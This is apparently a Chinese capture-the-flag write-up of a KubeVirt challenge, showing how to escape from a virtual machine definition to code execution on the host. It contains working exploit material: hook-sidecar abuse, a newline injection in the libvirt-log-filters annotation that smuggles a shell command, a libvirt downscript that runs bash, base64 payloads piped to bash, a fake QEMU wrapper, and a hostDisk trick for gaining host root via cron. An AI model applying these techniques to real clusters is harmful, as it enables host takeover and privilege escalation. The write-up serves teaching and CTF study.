


这个挑战允许你定义一个KubeVirt的虚拟机，要求在宿主机上运行/etc/readflag，并将结果输出到虚拟机的console。

## Step 1: 在`hook-sidecar-0`容器运行代码

根据`kubevirt-cr.yaml`，可以注意到开启了`Sidecar`功能。通过阅读KubeVirt的[文档](https://kubevirt.io/user-guide/user_workloads/hook-sidecar/)，可以发现该功能可以在pod内部运行任意代码；尽管文档没有写明如何在不依赖ConfigMap和Image的情况下运行代码，但是查看其[源码](https://github.com/kubevirt/kubevirt/blob/892f9593e80f63919c59d482d687bd08168ed3b4/pkg/hooks/hooks.go#L47)，很容易发现运行任意命令的方式。因此，我们可以在宿主机的某个命名空间运行代码了。

```go
type HookSidecar struct {
	Image           string                           `json:"image,omitempty"`
	ImagePullPolicy k8sv1.PullPolicy                 `json:"imagePullPolicy"`
	Command         []string                         `json:"command,omitempty"`
	Args            []string                         `json:"args,omitempty"`
	ConfigMap       *ConfigMap                       `json:"configMap,omitempty"`
	PVC             *PVC                             `json:"pvc,omitempty"`
	DownwardAPI     v1.NetworkBindingDownwardAPIType `json:"-"`
}
```

## Step 2: 在`compute`容器运行代码

经过尝试，很快就能发现，这个HookSidecar运行在一个单独的容器中，并不能直接接触到QEMU进程。阅读[代码](https://github.com/kubevirt/kubevirt/blob/v1.3.1/pkg/virt-controller/services/template.go#L478)可以确认，它和QEMU所在的`compute`容器只共享同一个网络命名空间；不共享进程命名空间，文件系统也只共享了`/var/run/kubevirt-hooks`。因此，我们需要想办法逃逸到`compute`容器中，才能控制QEMU的行为。

由于Hook Sidecar Container功能主要用于自定义Libvirt XML配置，所以我们需要想办法，通过修改Libvirt XML的方式实现运行任意代码。

阅读过[QEMU Invocation](https://qemu-project.gitlab.io/qemu/system/invocation.html)文档的读者可能会注意到以下段落：
```bash
# call "netcat 10.10.1.1 4321" on every TCP connection to 10.0.2.100:1234
# and connect the TCP stream to its stdin/stdout
qemu-system-x86_64 -nic  'user,id=n1,guestfwd=tcp:10.0.2.100:1234-cmd:netcat 10.10.1.1 4321'
```

这个参数的确可以运行任意代码，但是在我们的环境中，QEMU被libvirt管理。Libvirt启动QEMU时会默认附加seccomp sandbox参数，且只能通过修改[/etc/libvirt/qemu.conf](https://libvirt.org/kbase/qemu-passthrough-security.html)来修改这个行为；在KubeVirt环境下，我们没有权限。所以我们不能让QEMU运行我们的代码，只能让Libvirt运行我们的代码。

我们在Libvirt内部搜索`virCommandNew`，很容易找到[`virNetDevRunEthernetScript`](https://gitlab.com/libvirt/libvirt/-/blob/v10.9.0/src/util/virnetdev.c?ref_type=tags#L3466)，进而发现以下配置即可让Libvirt运行bash。
```xml
    <interface type='ethernet'>
      <downscript path='/bin/bash'/>
      <model type='virtio'/>
      <target dev='bash argument' managed='no'/>
    </interface>
```

因为我们无法插入`-c`，所以我们需要把我们的脚本写入到某个文件，才能让bash执行。经过翻阅KubeVirt的文档加一些测试，我们可以注入以下annotation：
```yaml
kubevirt.io/libvirt-log-filters: "2:qemu.qemu_monitor 3:*\"\na=\"$(YOUR COMMAND HERE)"
```
这样，相关脚本就会被写入到`/var/run/libvirt/virtqemud.conf`文件，然后我们就可以用bash执行它了。另外，由于`/var/run/kubevirt-hooks`也是共享的，把脚本写入到这个文件夹会会更好些。

组合一下：

- sidecar.sh:
```bash
#!/bin/bash
tempFile=`/bin/mktemp --dry-run`
echo $4 > $tempFile
if [ ! -f "/tmp/aaaa" ]; then
  echo 0 > /tmp/aaaa
fi
/bin/sed -i $tempFile -e "s|tap0|/var/run/libvirt/virtqemud.conf|g"
/bin/sed -i $tempFile -e "s|</interface>|<downscript path='/bin/bash'/></interface>|g"
/bin/cat $tempFile
```
- vm.yaml

```yaml
      annotations:
        kubevirt.io/libvirt-log-filters: "2:qemu.qemu_monitor 3:*\"\na=\"$(touch /tmp/test)"
        hooks.kubevirt.io/hookSidecars: |
          [{"command": ["/bin/bash"], "args": ["-c", "echo BASE64 OF SIDECAR.SH' | base64 -d > /tmp/onDefineDomain && chmod +x /tmp/onDefineDomain && PATH=/tmp /sidecar-shim --version v1alpha2"]}]
```

## Step 3: 获得flag

注意到`kubevirt-cr.yaml`内开启了`HostDisk`功能，但我们不能挂载`/etc/readflag`到虚拟机内——它被chmod 0111，我们对其只有x权限。我们还需要想办法在容器内运行`/etc/readflag`并取得其输出。

经过简单观察，当我们挂载`/etc/passwd`文件时，KubeVirt会把`/etc`挂载到容器内的`/run/kubevirt-private/vmi-disks/DISKNAME/`目录。所以，我们可以直接用bash来`/etc/readflag > /tmp/flag.txt`，然后把flag.txt挂载到虚拟机中。

## Step 4: 输出flag


在RCE成功后，我们需要在`libvirt-log-filters`里把Libvirt XML还原，否则我们无法启动VM并获得输出。这里有一些比较奇怪的细节需要自行调试一下。

最后组合：
- sidecar.sh
```bash
#!/bin/bash

tempFile=`/bin/mktemp --dry-run`
echo $4 > $tempFile
if [ ! -f "/tmp/aaaa" ]; then
  echo 0 > /tmp/aaaa
fi
/bin/sed -i $tempFile -e "s|tap0|/var/run/libvirt/virtqemud.conf|g"
/bin/sed -i $tempFile -e "s|-serial0|-serial123|g"
/bin/sed -i $tempFile -e "s|</interface>|<downscript path='/bin/bash'/></interface>|g"
/bin/cat $tempFile
```

- virtqemud.conf
```bash
/run/kubevirt-private/vmi-disks/test/readflag > /tmp/flag.txt
nohup bash -c '
v() {
    virsh -c qemu+unix:///session?socket=/var/run/libvirt/virtqemud-sock "$@"
}

for vm in $(v list --all --name); do
    v dumpxml $vm > /tmp/a.xml
    if [ -s /tmp/a.xml ]; then
        sed -i /tmp/a.xml \
            -e "s|/var/run/libvirt/virtqemud.conf|tap0|g" \
            -e "s|/bin/bash||g" \
            -e "s|-serial123|-serial0|g" \
            -e "s|/var/.*passwd|/tmp/flag.txt|g"
        v define /tmp/a.xml
    fi
done
' &>> /tmp/3.txt &
```

vm.yaml:
```yaml
apiVersion: kubevirt.io/v1
kind: VirtualMachine
metadata:
  name: test
spec:
  running: true
  template:
    metadata:
      annotations:
        kubevirt.io/libvirt-log-filters: "2:qemu.qemu_monitor 3:*\"\na=\"$(echo 'L3J1bi9rdWJldmlydC1wcml2YXRlL3ZtaS1kaXNrcy90ZXN0L3JlYWRmbGFnID4gL3RtcC9mbGFnLnR4dApub2h1cCBiYXNoIC1jICcKdigpIHsKICAgIHZpcnNoIC1jIHFlbXUrdW5peDovLy9zZXNzaW9uP3NvY2tldD0vdmFyL3J1bi9saWJ2aXJ0L3ZpcnRxZW11ZC1zb2NrICIkQCIKfQoKZm9yIHZtIGluICQodiBsaXN0IC0tYWxsIC0tbmFtZSk7IGRvCiAgICB2IGR1bXB4bWwgJHZtID4gL3RtcC9hLnhtbAogICAgaWYgWyAtcyAvdG1wL2EueG1sIF07IHRoZW4KICAgICAgICBzZWQgLWkgL3RtcC9hLnhtbCBcCiAgICAgICAgICAgIC1lICJzfC92YXIvcnVuL2xpYnZpcnQvdmlydHFlbXVkLmNvbmZ8dGFwMHxnIiBcCiAgICAgICAgICAgIC1lICJzfC9iaW4vYmFzaHx8ZyIgXAogICAgICAgICAgICAtZSAic3wtc2VyaWFsMTIzfC1zZXJpYWwwfGciIFwKICAgICAgICAgICAgLWUgInN8L3Zhci8uKnBhc3N3ZHwvdG1wL2ZsYWcudHh0fGciCiAgICAgICAgdiBkZWZpbmUgL3RtcC9hLnhtbAogICAgZmkKZG9uZQonICY+PiAvdG1wLzMudHh0ICY=' | base64 -d | bash)"
        hooks.kubevirt.io/hookSidecars: |
          [{"command": ["/bin/bash"], "args": ["-c", "echo 'IyEvYmluL2Jhc2gKCnRlbXBGaWxlPWAvYmluL21rdGVtcCAtLWRyeS1ydW5gCmVjaG8gJDQgPiAkdGVtcEZpbGUKaWYgWyAhIC1mICIvdG1wL2FhYWEiIF07IHRoZW4KICBlY2hvIDAgPiAvdG1wL2FhYWEKZmkKL2Jpbi9zZWQgLWkgJHRlbXBGaWxlIC1lICJzfHRhcDB8L3Zhci9ydW4vbGlidmlydC92aXJ0cWVtdWQuY29uZnxnIgovYmluL3NlZCAtaSAkdGVtcEZpbGUgLWUgInN8LXNlcmlhbDB8LXNlcmlhbDEyM3xnIgovYmluL3NlZCAtaSAkdGVtcEZpbGUgLWUgInN8PC9pbnRlcmZhY2U+fDxkb3duc2NyaXB0IHBhdGg9Jy9iaW4vYmFzaCcvPjwvaW50ZXJmYWNlPnxnIgovYmluL2NhdCAkdGVtcEZpbGUK' | base64 -d > /tmp/onDefineDomain && chmod +x /tmp/onDefineDomain && PATH=/tmp /sidecar-shim --version v1alpha2"]}]
    spec:
      domain:
        devices:
          disks:
          - disk:
              bus: virtio
            name: containerdisk
          - disk:
              bus: virtio
              readonly: true
            name: test
          - name: cloudinitdisk
            disk:
              bus: virtio
        resources:
          requests:
            memory: 64M
      volumes:
      - containerDisk:
          image: quay.io/kubevirt/cirros-container-disk-demo
        name: containerdisk
      - hostDisk:
          capacity: "0"
          path: /etc/passwd
          type: Disk
        name: test
      - name: cloudinitdisk
        cloudInitNoCloud:
          userDataBase64: SGkuXG4=
```

到虚拟机内部`sudo cat /dev/vdb`即可：



## 其他解法

### 修改启动的QEMU

来自[Blue Water](https://ctftime.org/team/205897/)：由于可以在sidecar容器内把文件写入到`/var/run/kubevirt-hooks`，因此可以直接替换启动的QEMU Binary。

```bash
FAKE_QEMU_KVM = """#!/bin/sh
/var/run/kubevirt-private/vmi-disks/host-disk/readflag > /var/run/kubevirt-private/vmi-disks/host-disk/4702de95-266c-4a95-a248-48db34408d9e

exec /usr/libexec/qemu-kvm "$@"
"""
open("/var/run/kubevirt-hooks/qemu-kvm", "wt").write(FAKE_QEMU_KVM)
os.chmod("/var/run/kubevirt-hooks/qemu-kvm", 0o755)
print(sys.argv[4].replace("/usr/libexec/qemu-kvm", "/var/run/kubevirt-hooks/qemu-kvm"))
```

### 获得宿主机的root权限

hostDisk选项中，若设置type为`DiskOrCreate`后绑定一个不存在的文件，KubeVirt会将其所在的文件夹以Kubenetes的`DirectoryOrCreate`形式挂载。Kubernetes会以root权限对该文件夹进行chown操作。

```bash
[root@VM-0-226-tencentos ~]# mkdir /etc/bbb
[root@VM-0-226-tencentos ~]# ls -rla /etc/bbb
total 16
drwxr-xr-x 113  107  107 12288 Dec 22 13:26 ..
drwxr-xr-x   2 root root  4096 Dec 22 13:26 .
[root@VM-0-226-tencentos ~]# ls -rla /etc/bbb
total 20
-rw-r--r--   1 107 107 1048576 Dec 22 13:26 aaaaaa
drwxr-xr-x 113 107 107   12288 Dec 22 13:26 ..
drwxr-xr-x   2 107 107    4096 Dec 22 13:26 .
```

在比赛时，这个行为破坏了服务器的不少文件夹的权限。




KubeVirt和Kubernetes在此处的行为都让人摸不着头脑。由于我们可以直接在虚拟机里写入任何内容到`/dev/vdb`，这等于我们拥有了一个在任意路径创建新文件的漏洞（已有文件权限无法修改）。通过向`/etc/cron.hourly`写文件，即可获得主机的root权限。这个解法不需要sidecar功能，但是依赖宿主机操作系统。

